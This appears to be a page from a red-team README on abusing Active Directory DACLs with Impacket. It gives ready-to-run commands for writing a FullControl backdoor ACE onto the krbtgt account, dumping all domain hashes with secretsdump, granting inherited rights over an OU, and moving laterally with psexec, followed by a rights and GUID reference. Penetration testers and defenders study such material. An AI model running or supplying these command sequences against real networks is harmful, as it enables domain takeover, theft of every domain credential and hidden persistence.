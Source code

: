 ### Persistence Through DACL Backdoors
```bash
# Step 1: Backup original DACL
python3 dacledit.py domain.local/admin:password -action backup -target krbtgt -file krbtgt_original.json

# Step 2: Add backdoor ACE to krbtgt account
python3 dacledit.py domain.local/admin:password -action write -target krbtgt -principal backdoor_user -rights FullControl

# Step 3: Use backdoor for persistence
python3 secretsdump.py domain.local/backdoor_user:password@dc.domain.local -just-dc

# Step 4: Clean up when needed
python3 dacledit.py domain.local/admin:password -action restore -target krbtgt -file krbtgt_original.json
```

### Container/OU Privilege Inheritance
```bash
# Step 1: Grant rights on OU with inheritance
python3 dacledit.py domain.local/user:password -action write -target-dn "OU=Servers,DC=domain,DC=local" -principal user -rights FullControl -inheritance

# Step 2: All computer objects in OU inherit permissions
# Step 3: Compromise any server in the OU
python3 psexec.py domain.local/user:password@server1.domain.local
```

## Prerequisites
- Python 3.x with Impacket installed
- Valid domain credentials (user level access minimum)
- Network access to domain controller via LDAP (389/tcp) or LDAPS (636/tcp)
- Understanding of Active Directory DACL structure and permissions
- Knowledge of target object identifiers (sAMAccountName, SID, or DN)

## DACL Rights Reference

### Standard Rights:
- **FullControl**: Complete control over the object
- **ResetPassword**: Ability to reset user account passwords
- **WriteMembers**: Ability to modify group membership
- **DCSync**: Replication rights for domain credential extraction

### Extended Rights GUIDs:
- **User-Force-Change-Password**: 00299570-246d-11d0-a768-00aa006e0529
- **DS-Replication-Get-Changes**: 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
- **DS-Replication-Get-Changes-All**: 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
- **User-Change-Password**: ab721a53-1e2f-11d0-9819-00aa0040529b
